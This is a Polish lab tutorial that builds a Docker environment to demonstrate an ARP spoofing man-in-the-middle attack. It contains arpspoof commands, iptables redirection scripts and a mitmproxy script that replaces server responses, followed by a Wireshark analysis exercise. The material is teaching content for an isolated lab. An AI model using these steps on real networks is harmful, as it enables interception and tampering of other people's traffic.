# Wykorzystanie narzędzia Docker do zobrazowania ataku typu Man in the Middle (MitM)


## Laboratorium 01: Atak ARP Spoofing z przechwytywaniem ruchu


### Opis scenariusza

Jest to klasyczny atak Man-in-the-Middle polegający na podrobieniu adresów ARP (Address Resolution Protocol) w celu przekierowania ruchu sieciowego przez maszynę atakującego (Attacker01). Trzy kontenery Docker (Client01, Server01 i Attacker01) są połączone w sieci Docker bridge. Client01 wysyła żądania HTTP do serwera Server01, ale ruch przechodzi przez Attacker01, który może obserwować i modyfikować komunikację.


### Wymagane zasoby

- **System operacyjny**: Linux/Windows/MacOs z zainstalowanym Docker, docker-compose oraz opcjonalnie git
- **Narzędzia**: arpspoof, mitmproxy, tcpdump, dig, Wireshark/tcpdump
- **Wielkość**: Około 500 MB miejsca na dysku
- **Pamięć RAM**: Minimum 2 GB
- **Czas setup**: 5-10 minut
- **Trzy kontenery**: Client01 (klient/ofiara), Server01 (serwer HTTP), Attacker01 (atakujący)


### Architektura sieciowa

```
┌──────────────────────────────────────────────────────────────────────────┐
│                    Sieć Docker Bridge                                    │
│                    (bridge: mitm_network)                                │
│                                                                          │
│  ┌────────────────────────────────────────────────────────┐              │
│  │   Client01 (IP: 172.20.0.2)                            │              │
│  │   - Firefox/Lynx                                       │              │
│  │   - Client HTTP                                        │              │
│  └───────┬────────────────────────────────────────────────┘              │	
│          │                              ▲                                │
│          │	ARP Request:              │                                │   
│          │ 	  Where is "Server01"     │                                │
│          │                              │ ARP Reply:                     │
│          │                              │   I am "Server01"              │
│          │                              │   (MAC: "Attacker01" MAC)      │
│          ▼                              │                                │
│  ┌──────────────────────────────────────┴────────────────┐               │
│  │   Attacker01 (IP: 172.20.0.3)                         │               │
│  │ - arpspoof                                            │               │
│  │ - mitmproxy                                           │               │
│  │ - tcpdump                                             │               │
│  └───────────────────────────────────────────────────────┘               │
│           │                             ▲                                │
│           │                             │                                │
│           │                             │                                │
│           ▼                             ▼                                │
│  ┌────────────────────────┐     ┌─────────────────────────────────┐      │ 
│  │   Wireshark/tcpdump    │     │   Server01 (IP: 172.20.0.4)     │ 	   │
│  │   (Packet Analysis)    │     │   - HTTP Server                 │	   │
│  │                        │     │   - Nginx                       │	   │
│  └────────────────────────┘     └─────────────────────────────────┘      │
│                                                                          │
└──────────────────────────────────────────────────────────────────────────┘
```

### Krok 0: Pobranie konfiguracji z repozytorium


Cała konfiguracja może zostać pobrana z repozytorium lub utworzona ręcznie. Kroki 1 - 4 opisują proces tworzenia konfiguracji ręcznie, można je pominąć jeżeli pobieramy konfigurację z repozytorium. 


W systemie Windows należy wymusić wyłączenie zmiany znaku końca linii przez git, w innym przypadku mogą wystąpić problemy z plikami *.sh w kontenerze. Znak końca linii powinien być ustawiony w tych plikach na Unix (LF).
```
git config --global core.autocrlf false
```


Wykonujemy polecenia w teminalu:

```
git clone https://github.com/mateuszskala/BiNSC.git binsc_mitm
cd binsc_mitm/Lab01
```

Jeżeli wszystko pobrało się poprawnie i struktura katalogów jest poprawna można przejść od razu do kroku 5 jednak warto zweryfikować konfigurację i zapoznać się z zawartością plików opisanych w krokach 1-4 aby lepiej zrozumieć przebieg zdarzeń.


### Krok 1 (opcjonalnie): Przygotowanie struktury katalogów

```bash
mkdir -p bsc_mitm/Lab01
cd bsc_mitm/Lab01
mkdir -p client01_files server01_files attacker01_files
```

### Krok 2 (opcjonalnie): Tworzenie Dockerfile dla kontenerów

**Dockerfile dla client01**
```dockerfile
FROM ubuntu:22.04
RUN apt-get update && apt-get install -y \
    curl \
    iputils-ping \
    net-tools \
    dnsutils \
    tcpdump \
    telnet \
    && rm -rf /var/lib/apt/lists/*

WORKDIR /workspace
CMD ["/bin/bash"]
```

**Dockerfile dla server01**
```dockerfile
FROM nginx:alpine
COPY server01_files/index.html /usr/share/nginx/html/
EXPOSE 80
CMD ["nginx", "-g", "daemon off;"]
```

**Dockerfile dla attacker01**
```dockerfile
FROM ubuntu:22.04
RUN apt-get update && apt-get install -y \
    dsniff \
    mitmproxy \
    tcpdump \
    net-tools \
    dnsutils \
    iptables \
    netcat \
    vim \
    && rm -rf /var/lib/apt/lists/*

RUN echo "1" > /proc/sys/net/ipv4/ip_forward

WORKDIR /workspace
CMD ["/bin/bash"]
```

### Krok 3 (opcjonalnie): Tworzenie pliku docker-compose.yml

```yaml
services:
  client01:
    build:
      context: .
      dockerfile: Dockerfile.client01
    container_name: mitm_client01
    networks:
      mitm_network:
        ipv4_address: 172.20.0.2
    volumes:
      - ./client01_files:/workspace
    stdin_open: true
    tty: true

  server01:
    build:
      context: .
      dockerfile: Dockerfile.server01
    container_name: mitm_server01
    networks:
      mitm_network:
        ipv4_address: 172.20.0.4
    volumes:
      - ./server01_files:/workspace
    expose:
      - "80"
    environment:
      - NGINX_HOST=server01
      - NGINX_PORT=80

  attacker01:
    build:
      context: .
      dockerfile: Dockerfile.attacker01
    container_name: mitm_atacker01
    networks:
      mitm_network:
        ipv4_address: 172.20.0.3
    volumes:
      - ./atacker01_files:/workspace
    cap_add:
      - NET_ADMIN
      - SYS_ADMIN
    devices:
      - /dev/net/tun
    stdin_open: true
    tty: true

networks:
  mitm_network:
    driver: bridge
    ipam:
      config:
        - subnet: 172.20.0.0/24
```

### Krok 4 (opcjonalnie): Przygotowanie plików konfiguracyjnych

**server01_files/index.html** (oryginalny serwer)
```html
<!DOCTYPE html>
<html>
<head>
    <title>Secure Server01</title>
    <style>
        body { font-family: Arial; margin: 40px; background-color: #e8f5e9; }
        .secure { border: 3px solid green; padding: 20px; border-radius: 5px; }
    </style>
</head>
<body>
    <div class="secure">
        <h1>🔒 Welcome to Secure Server01</h1>
        <p>This is the ORIGINAL server hosted by Server01</p>
        <p>Status: <span style="color: green;">✓ LEGITIMATE</span></p>
        <p>If you see this page, connection is secure!</p>
    </div>
</body>
</html>
```

**attacker01_files/add_iptables_rule.sh** (skrypt do konfiguracji)
```bash
#!/bin/bash
# Enable IP forwarding
sysctl -w net.ipv4.ip_forward=1

# Add iptables rule to redirect port 80 to mitmproxy
iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080

echo "iptables rules added successfully"
iptables -L -t nat
```

**attacker01_files/del_iptables_rule.sh** (usuwanie reguł)
```bash
#!/bin/bash
# Remove iptables rule
iptables -t nat -D PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080

# Disable IP forwarding (optional)
sysctl -w net.ipv4.ip_forward=0

echo "iptables rules removed"
```

**attacker01_files/proxy.py** (skrypt modyfikujący strony)
```python
from mitmproxy import http

def request(flow: http.HTTPFlow) -> None:
    print(f"[MitM] Request: {flow.request.url}")

def response(flow: http.HTTPFlow) -> None:
    # Modyfikacja odpowiedzi HTTP
    filename = 'index_modified.html'
    with open(filename, mode='rb') as f:
        content = f.read()
    print('Sendig modified content!')
    if flow.response.content:
        flow.response.content = content
```

**attacker01_files/index_modified.html** (podmieniona strona www)
```html
<!DOCTYPE html>
<html>
<head>
    <title>INTERCEPTED PAGE</title>
    <style>
        body { font-family: Arial; margin: 40px; background-color: #ffebee; }
        .warning { border: 3px solid red; padding: 20px; border-radius: 5px; }
    </style>
</head>
<body>
    <div class="warning">
        <h1>⚠️ WARNING - PAGE INTERCEPTED</h1>
        <p>This page has been modified by the Attacker01</p>
        <p>Original connection was compromised via ARP Spoofing</p>
        <p style="color: red;"><strong>This demonstrates MitM attack vulnerability</strong></p>
    </div>
</body>
</html>
```

### Krok 5: Instrukcje wykonania ataku

#### Uruchomienie kontenerów
W istniejącym terminalu (Terminal0 - host) będąc w katalogu Lab01 uruchamiamy polecenia.
```bash
# Budowanie i uruchamianie
docker-compose build
docker-compose up -d

# Weryfikacja działania
docker-compose ps
```

Jeżeli wszystko działa poprawnie uruchamiamy zapisywanie całej komunikacji do pliku *.pcap za pomocą tcpdump, który wykorzystamy na końcu laboratorium do analizy.

```bash
# Uruchomienie tcpdump w Attacker01 (przesłanie do hosta)
docker exec mitm_attacker01 tcpdump -i any -w /tmp/capture.pcap
```
Terminal0 pozostawiamy otwarty.



#### Konfiguracja środowiska ataku 
Prze przystąpieniem do konfiguracji należy zweryfikować czy plik add_iptables_rule.sh jest zapisany jako Linux (LF), w innym przypadku mogą wystąpić problemy z uruchomieniem pliku.

Następnie otwieramy kolejny terminal i konfigurujemy maszynę Attacker01 (Terminal1 w Attacker01)
```bash
# Wejście do kontenera Attacker01
docker exec -it mitm_attacker01 /bin/bash

# Sprawdzenie adresów IP serwera i klienta
dig client01
dig server01

# Uczynienie skryptu wykonywalnym i dodanie reguły iptables
chmod +x /workspace/add_iptables_rule.sh
/workspace/add_iptables_rule.sh
```






W drugim terminalu (Terminal2) wchodzimy do kontenera Client01 i weryfikujemy aktualne dane w ARP Cache
```bash
docker exec -it mitm_client01 /bin/bash

# Sprawdzamy adres serwera 
ping -c 1 server01

# Weryfikacja ARP cache
ip neighbor

# Test HTTP
curl http://server01

#Ewentualnie możemy wykorzystać lynx
lynx http://server01
```




Otwiera się niezmodyfikowana strona z serwer01.



#### ARP Spoofing (w dwóch terminalach Attacker01)
Należy uruchomić dwa dodatkowe terminale i wejść w nich do kontenera Attacker01 za pomocą polecenia
```bash
docker exec -it mitm_attacker01 /bin/bash
```

W każdym z nich uruchamiamy polecenia

Terminal3 (attacker01):
```bash
# Spoofowanie Client01 -> Server01
arpspoof -t 172.20.0.2 172.20.0.4
```



Terminal4 (attacker01):
```bash
# Spoofowanie Server01 -> Client01
arpspoof -t 172.20.0.4 172.20.0.2
```



Za pomocą tych dwóch poleceń Attacker01 infekuje pamięć podręczną tablicy ARP informując, że jego adres fizyczny MAC odpowiada pod adresami IP serwera Server01 oraz klienta Client01, co spowoduje przesłanie informacji przez jego odpowiednio skonfigurowaną maszynę (zatem maszyna Attacker01 stanie się elementem pośredniczącym w komunikacji -> Man in the Middle!)

Terminale 3 i 4 pozostawiamy uruchomione i wracamy do Terminal2 (client01)

W Terminal2 sprawdzamy ponownie pamięć ARP Cache aby potwierdzić zmianę adresu MAC dla serwera.

```bash
ip neighbor
```



#### Uruchomienie mitmproxy
Kolejnym krokiem jest uruchomienie mitmproxy, dzięki któremu możemy obserwować komunikację przechodzącą przez kontener Attacker01 jak również modyfikować zawartość pakietów.

Na początek uruchomimy mitmproxy bez modyfikacji pakietów i zaobserwujemy, że zapytania wysłane przez Client01 docierają do Server01 i odwrotnie.

Terminal1 (Attacker01) - Bez modyfikacji:
```bash
mitmproxy -m transparent --listen-port 8080
```

W Terminalu2 (Client01) uruchamiamy polecenie wykonujące zapytanie GET do Server01, może to być curl
```
curl http://server01
```

lub terminalowa przeglądarka lynx:
```
lynx http://server01
```

W Terminalu1 (Attacker01) można zaobserwować zapytanie wysłane z Client01 do Server01 i odpowiedź serwera.









Zamykamy mitmproxy wciskając q, y

Następnie uruchamiamy mitmproxy wraz ze skryptem proxy.py który modyfikuje zawartość odpowiedzi od serwera:
```bash
mitmproxy -m transparent --listen-port 8080 -s /workspace/proxy.py
```

Ponownie w Terminalu2 (Client01) wykonujemy polecenie curl lub uruchamiamy lynx, w Terminalu1 (Attacker01) obserwujemy nowe zapytania, a w Teminalu2 (Client01) mamy teraz inną (zmodyfikowaną) stronę internetową.








#### Analiza ruchu (Wireshark)
W tym momencie możemy zamknąć terminale 1-4 - nie będą już potrzebne.

Na maszynie hosta (Terminal0) zatrzymujemy tcpdump za pomocą Ctrl+c i  uruchamiamy polecenie kopiujące plik capture.pcap do lokalnego systemu plików.

```bash
# Skopiowanie pliku na hosta
docker cp mitm_attacker01:/tmp/capture.pcap ./capture.pcap

# Otwieranie w Wireshark
wireshark ./capture.pcap
```


### Krok 6: Analiza i zadania
Po skopiowaniu pliku *.pcap na lokalny komputer należy przeanalizować jego zawartość. W trakcie analizy należy pokazać kluczowe miejsca ataku, w szczególności:
* pakiety przed wykonaniem ataku
* pakiety po wykonaniu spoofingu ale bez modyfikacji
* należy wskazać pakiety po wykonaniu spoofingu wraz ze zmodyfikowaną odpowiedzią.

Czy w pliku znajdują się pakiety które wysłał Client01 do Server01 przed wykonaniem spoofingu (polecenie arpspoof)?

### Krok 7. Czyszczenie systemu
W Terminalu0 uruchamiamy polecenie które usunie wszystkie kontenery:
```bash
docker-compose down --rmi all --volumes
```


